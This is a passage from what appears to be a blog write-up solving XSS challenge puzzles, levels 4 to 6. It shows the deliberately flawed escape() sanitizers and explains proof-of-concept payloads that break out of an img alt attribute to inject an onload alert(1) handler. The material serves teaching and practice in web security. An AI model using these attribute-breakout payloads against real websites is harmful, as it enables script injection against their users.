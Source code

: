 Payload: `[[a|""onload="alert(1)]]`

#### Level 5:

{% highlight javascript lineos %}

function escape(s) {
  // Level 4 had a typo, thanks Alok.
  // If your solution for 4 still works here, you can go back and get more points on level 4 now.

  var text = s.replace(/</g, '&lt;').replace(/"/g, '&quot;');
  // URLs
  text = text.replace(/(http:\/\/\S+)/g, '<a href="$1">$1</a>');
  // [[img123|Description]]
  text = text.replace(/\[\[(\w+)\|(.+?)\]\]/g, '<img alt="$2" src="$1.gif">');
  return text;
}

{% endhighlight %}

Well, things got interesting here as there is no way we can inject double quote here. So we need to make use of both img and href tag together in a way, one closes the other context and we can inject an event handler.

```
[[a|a]]            ->        <img alt="a" src="a.gif">

[[a|b]]            ->        <img alt="b" src="a.gif">
```

ok, this means we can control what ever comes inside the `alt` tag. Lets see what happens if we inject `http://` there.

```
[[a|http://]]      ->        <img alt="<a href="http://" src="a.gif">">http://]]</a>
```

Now that looks cool. So now you can see that the `alt` context is escaped with the double quotes that comes with href which means we can try injecting our own event handler (since double quotes are filtered, we might want to try single quotes).

Payload: `[[a|http://onload='alert(1)']]`


#### Level 6:

{% highlight javascript lineos %}

function escape(s) {
  // Slightly too lazy to make two input fields.
  // Pass in something like "TextNode#foo"
  var m = s.split(/#/);

  // Only slightly contrived at this point.
  var a = document.createElement('div');
  a.appendChild(document['create'+m[0]].apply(document, m.slice(1)));
  return a.innerHTML;
}

{% endhighlight %}
